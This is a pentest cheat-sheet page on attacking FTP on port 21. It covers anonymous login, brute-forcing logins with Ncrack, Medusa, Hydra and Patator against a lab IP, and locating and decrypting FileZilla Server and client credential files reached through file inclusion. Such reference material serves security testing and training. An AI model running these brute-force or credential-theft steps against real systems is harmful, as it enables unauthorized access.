 ```yaml
---
title: PORT 21/tcp - FTP
category: Services
order: 1
---
```


# Introduction

FTP (File Transfer Protocol) is used to communicate and transfer files between computers on a TCP/IP (Transmission Control Protocol/Internet Protocol) network, aka the internet. Users, who have been granted access, can receive and transfer files in the File Transfer Protocol server (also known as FTP host/site).

# Anonymous User

In some devices anonymous user is enabled. It's important to give it a try.

```
ftp 10.10.10.10
name: anonymous
pass
```

# Bruteforcing Credentials

To bruteforce the login in order to find valid credentials we can use different tools:

* Ncrack
```
ncrack -U usernames.txt -P passowrds.txt ftp://10.10.10.10 -v
ncrack -u root -P passowrds.txt ftp://10.10.10.10 -v
```

* Medusa
```
medusa -h 10.10.10.10 -U usernames.txt -P passowrds.txt -M ftp
medusa -h 10.10.10.10 -u root -P passowrds.txt -M ftp
```

* Hydra
```
hydra -L usernames.txt -P passwords.txt ftp://10.10.10.10 -s 21
hydra -l root -P passwords.txt ftp://10.10.10.10 -s 21
```

* Patator
```
patator ftp_login host=10.10.10.10 user=FILE0 password=FILE1 0=usernames.txt 1=passwords.txt -x ignore:mesg='Login incorrect.'
patator ftp_login host=10.10.10.10 user=root password=FILE0 0=passwords.txt -x ignore:mesg='Login incorrect.'
```

# FileZilla Server (From LFI)

## FileZilla Server credentials

FileZilla Server credentials are stored on the `FileZilla Server.xml` file stored in one of the following routes:

```
C:\Program Files (x86)\FileZilla Server\FileZilla Server.xml
C:\Program Files\FileZilla Server\FileZilla Server.xml
C:\xampp\FileZillaFTP\FileZilla Server.xml
```

Some times we can found it on plain text (base64) and sometimes encrypted. To decrypt we can use the following tool:

```
python filezilla-decrypt.py --wordlist /usr/share/wordlists/rockyou.txt
```

> **Note**: You need to modify **password** and **salt** variables of the python script and unescape the salt.

```
&amp; = &
&lt; = <
&apos; = '
&quot; = "
&gt; = >

# Example
Escaped:        `!U3`CQ;a&amp;3IzbXc/4Wpb\)OZ3TsXP;&apos;Wx#^K&quot;Tu_XX.K&apos;o&lt;&apos;c&amp;A:vItTX-M|Z0Y
Unescaped:      `!U3`CQ;a&3IzbXc/4Wpb\)OZ3TsXP;'Wx#^K"Tu_XX.K'o<'c&A:vItTX-M|Z0Y
```
* [https://github.com/l4rm4nd/FileZilla-Password-Decryptor](https://github.com/l4rm4nd/FileZilla-Password-Decryptor)

## FileZilla client credentials

FileZilla client save last saved credentials on the following link.

```
C:\Users\VICTIM\AppData\Roaming\FileZilla\RecentServers.xml
```

